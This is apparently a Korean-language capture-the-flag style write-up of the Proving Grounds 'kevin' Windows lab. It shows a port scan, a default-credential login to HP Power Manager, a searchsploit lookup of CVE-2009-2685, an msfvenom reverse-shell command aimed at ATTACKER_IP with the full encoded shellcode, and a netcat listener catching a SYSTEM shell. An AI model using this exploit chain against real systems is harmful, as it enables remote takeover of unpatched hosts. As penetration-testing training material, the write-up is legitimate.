



---
layout: post
title:  "[PG][Windows] kevin"
date:   2026-11-08 12:20:00 +09:00
featured: /assets/images/oscp-pg/windows/kevin/image.png
categories: PG Windows
---Nmap을 통해 포트 스캔을 수행함.
```
└─$ nmap --open 192.168.216.45
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-01 06:26 EDT
Nmap scan report for 192.168.216.45
Host is up (0.15s latency).
Not shown: 989 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 4.87 seconds
```

브라우저를 통해 80포트 접근 시 HP Power Manager 페이지에 접근됨.


디폴트 계정(amdin/admin)으로 로그인 성공했으며, Help 메뉴에서 HP Power Manager 4.2 (Build 7) 버전을 사용을 확인함.


searchsploit툴로 PoC코드를 발견하여 -m 옵션으로 코드를 저장함.
```
└─$ searchsploit HP Power Manager
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                   |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Flying Dog Software Powerslave 4.3 Portalmanager - 'sql_id' Information Disclosure                                                                                               | php/webapps/23163.txt
Hewlett-Packard (HP) Power Manager Administration - Remote Buffer Overflow (Metasploit)                                                                                          | windows/remote/16785.rb
Hewlett-Packard (HP) Power Manager Administration Power Manager Administration - Universal Buffer Overflow                                                                       | windows/remote/10099.py
HP Power Manager - 'formExportDataLogs' Remote Buffer Overflow (Metasploit)                                                                                                      | cgi/remote/18015.rb
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                                                                                   
┌──(kali㉿kali)-[~/Desktop/pg/win/kevin]
└─$ searchsploit -m 10099                           
  Exploit: Hewlett-Packard (HP) Power Manager Administration Power Manager Administration - Universal Buffer Overflow
      URL: https://www.exploit-db.com/exploits/10099
     Path: /usr/share/exploitdb/exploits/windows/remote/10099.py
    Codes: CVE-2009-2685
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/Desktop/pg/win/kevin/10099.py
```

PoC코드의 주석 확인 시 bad characters 갑을 지정해줌.


이걸 의미별로 나누면 이렇게 돼.

-p windows/shell_reverse_tcp : Windows용 Reverse TCP 쉘을 생성.
-a x86 :생성할 쉘코드를 32비트 x86 아키텍처로 생성.(HP Power Manager 취약점이 32비트 Windows 환경을 대상이기 때문)
--platform windows : 대상 운영체제가 Windows라는 것을 명시하는 옵션.
-e x86/alpha_mixed : 쉘코드를 영문 대소문자와 숫자를 중심으로 구성되는 형태로 인코딩해서 bad character를 피함.(이 PoC는 특정 문자가 들어가면 문자열이 깨지기 때문에 인코더가 필요)
Bad chars
-b "..." : 이 바이트들은 절대 쉘코드에 포함하지 말라는 의미.
-f c : C 문자열 형태로 생성.


```
└─$ msfvenom -p windows/shell_reverse_tcp -f exe --platform windows -a x86 -e x86/alpha_mixed -f c -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=ATTACKER_IP LPORT=4444
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 709 (iteration=0)
x86/alpha_mixed chosen with final size 709
Payload size: 709 bytes
Final size of c file: 3013 bytes
unsigned char buf[] = 
"\x89\xe7\xd9\xcc\xd9\x77\xf4\x5a\x4a\x4a\x4a\x4a\x4a\x4a"
"\x4a\x4a\x4a\x4a\x4a\x43\x43\x43\x43\x43\x43\x37\x52\x59"
"\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41"
"\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42"
"\x75\x4a\x49\x69\x6c\x5a\x48\x4e\x62\x53\x30\x55\x50\x65"
"\x50\x43\x50\x4e\x69\x79\x75\x76\x51\x6b\x70\x30\x64\x4c"
"\x4b\x52\x70\x76\x50\x4e\x6b\x52\x72\x76\x6c\x6c\x4b\x43"
"\x62\x74\x54\x4c\x4b\x34\x32\x54\x68\x56\x6f\x6d\x67\x73"
"\x7a\x31\x36\x46\x51\x59\x6f\x6c\x6c\x75\x6c\x50\x61\x61"
"\x6c\x57\x72\x76\x4c\x65\x70\x6b\x71\x6a\x6f\x64\x4d\x75"
"\x51\x79\x57\x4b\x52\x79\x62\x56\x32\x43\x67\x4c\x4b\x63"
"\x62\x72\x30\x6c\x4b\x53\x7a\x45\x6c\x6c\x4b\x32\x6c\x47"
"\x61\x43\x48\x6d\x33\x47\x38\x53\x31\x7a\x71\x56\x31\x4c"
"\x4b\x50\x59\x65\x70\x45\x51\x4b\x63\x4c\x4b\x53\x79\x34"
"\x58\x79\x73\x74\x7a\x70\x49\x6e\x6b\x57\x44\x4e\x6b\x45"
"\x51\x5a\x76\x46\x51\x69\x6f\x4e\x4c\x59\x51\x38\x4f\x44"
"\x4d\x57\x71\x6a\x67\x50\x38\x6d\x30\x30\x75\x58\x76\x37"
"\x73\x71\x6d\x79\x68\x45\x6b\x71\x6d\x34\x64\x70\x75\x6d"
"\x34\x56\x38\x6e\x6b\x63\x68\x51\x34\x45\x51\x6b\x63\x33"
"\x56\x6c\x4b\x46\x6c\x62\x6b\x6e\x6b\x30\x58\x37\x6c\x47"
"\x71\x6e\x33\x4e\x6b\x37\x74\x4e\x6b\x35\x51\x6a\x70\x4c"
"\x49\x77\x34\x61\x34\x47\x54\x63\x6b\x73\x6b\x50\x61\x62"
"\x79\x33\x6a\x30\x51\x79\x6f\x4b\x50\x43\x6f\x31\x4f\x50"
"\x5a\x6e\x6b\x56\x72\x6a\x4b\x4c\x4d\x61\x4d\x52\x48\x34"
"\x73\x34\x72\x35\x50\x43\x30\x70\x68\x33\x47\x71\x63\x75"
"\x62\x51\x4f\x70\x54\x45\x38\x62\x6c\x62\x57\x74\x66\x64"
"\x47\x69\x6f\x6b\x65\x6d\x68\x6a\x30\x76\x61\x45\x50\x53"
"\x30\x64\x69\x38\x44\x46\x34\x46\x30\x65\x38\x77\x59\x4b"
"\x30\x70\x6b\x77\x70\x39\x6f\x78\x55\x32\x70\x70\x50\x72"
"\x70\x72\x70\x53\x70\x56\x30\x71\x50\x70\x50\x63\x58\x6a"
"\x4a\x64\x4f\x49\x4f\x39\x70\x39\x6f\x6a\x75\x4a\x37\x51"
"\x7a\x33\x35\x52\x48\x39\x50\x39\x38\x74\x6d\x6f\x52\x33"
"\x58\x34\x42\x73\x30\x44\x51\x53\x6c\x4d\x59\x78\x66\x43"
"\x5a\x46\x70\x70\x56\x71\x47\x65\x38\x5a\x39\x69\x35\x44"
"\x34\x55\x31\x79\x6f\x5a\x75\x6c\x45\x49\x50\x44\x34\x46"
"\x6c\x4b\x4f\x50\x4e\x76\x68\x34\x35\x78\x6c\x45\x38\x4a"
"\x50\x38\x35\x6f\x52\x36\x36\x59\x6f\x49\x45\x72\x48\x63"
"\x53\x42\x4d\x70\x64\x33\x30\x4b\x39\x4a\x43\x51\x47\x30"
"\x57\x33\x67\x44\x71\x7a\x56\x43\x5a\x64\x52\x32\x79\x70"
"\x56\x68\x62\x79\x6d\x51\x76\x4f\x37\x63\x74\x47\x54\x37"
"\x4c\x46\x61\x77\x71\x6e\x6d\x71\x54\x34\x64\x46\x70\x38"
"\x46\x33\x30\x71\x54\x53\x64\x46\x30\x50\x56\x31\x46\x50"
"\x56\x57\x36\x70\x56\x50\x4e\x32\x76\x33\x66\x52\x73\x31"
"\x46\x35\x38\x33\x49\x68\x4c\x75\x6f\x4f\x76\x39\x6f\x4a"
"\x75\x4e\x69\x69\x70\x70\x4e\x30\x56\x47\x36\x59\x6f\x70"
"\x30\x52\x48\x74\x48\x4f\x77\x77\x6d\x51\x70\x79\x6f\x38"
"\x55\x4f\x4b\x48\x70\x4c\x75\x69\x32\x66\x36\x42\x48\x4e"
"\x46\x7a\x35\x4f\x4d\x6f\x6d\x69\x6f\x58\x55\x57\x4c\x63"
"\x36\x51\x6c\x46\x6a\x6f\x70\x69\x6b\x4d\x30\x44\x35\x54"
"\x45\x4d\x6b\x71\x57\x66\x73\x43\x42\x32\x4f\x31\x7a\x57"
"\x70\x31\x43\x39\x6f\x6b\x65\x41\x41";
```

netcat을 이용해 4444포트로 열어둔 리스너에 shell이 붙었으며, 관리자 권한임을 확인함.
```
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [192.168.146.45] 49168
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```


